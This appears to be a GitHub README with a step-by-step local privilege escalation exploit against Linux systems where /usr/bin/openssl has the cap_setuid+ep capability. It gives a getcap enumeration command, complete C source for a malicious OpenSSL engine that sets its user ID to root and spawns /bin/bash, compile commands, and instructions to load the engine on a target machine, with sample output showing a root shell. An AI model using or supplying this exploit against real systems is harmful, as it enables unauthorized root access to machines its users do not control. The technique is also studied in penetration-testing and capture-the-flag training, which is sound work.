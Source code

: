 # All credit goes to chaudhary1337 
**check out the original post:**
https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/

**---- *Modified by LV6LV* ----**

Consider the binary /usr/bin/openssl has capabilities set as: /usr/bin/openssl = cap_setuid+ep 

Is there a way to become root from a normal user by using this? 
> yes... yes there is a way.

## Search all the binaries' capibilities using: 
```
getcap -r / 2>/dev/null.
```
> getcap is the tool we will use
-r is the recursive flag
2>/dev/null directs the standard error stream to /dev/null


If you see /usr/bin/openssl = cap_setuid+ep, we are set for success.

## 1. Requirements (On Your System)
We will use #include <openssl/engine.h> header in our exploit engine file. On debian based systems, use: sudo apt-get install libssl-dev to install.
gcc

## 2. Getting The Exploit Ready
Create a file named openssl-exploit-engine.c with contents as such:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
Check reference number 2  below for more information.

## 3. Compiling
Run the following:
```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
```
It is safe to ignore warnings below:

> implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]

> implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]

Next run:
```
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```
Resultant is the openssl-exploit-engine.so file.

## 4. Transfer the file to target machine
Once you have the file on the target machine, run the following command below.

openssl req -engine <full path to openssl-exploit-engine.so file>

Sample output if openssl-exploit-engine.so is located in the /tmp directory
```
$ openssl req -engine /tmp/openssl-exploit-engine.so
# whoami
root
```
**Enjoy!**

## Common Errors
> fatal error: openssl/engine.h: No such file or directory #include <openssl/engine.h>
  
Fix by installing libssl-dev (sudo apt-get install libssl-dev)

## 7. References

1. Read up more on capabilities. 
  https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities
2. OpenSSL building a useless engine
  https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/
3. How to use the library load feature OpenSSL
  https://gtfobins.github.io/gtfobins/openssl/#library-load
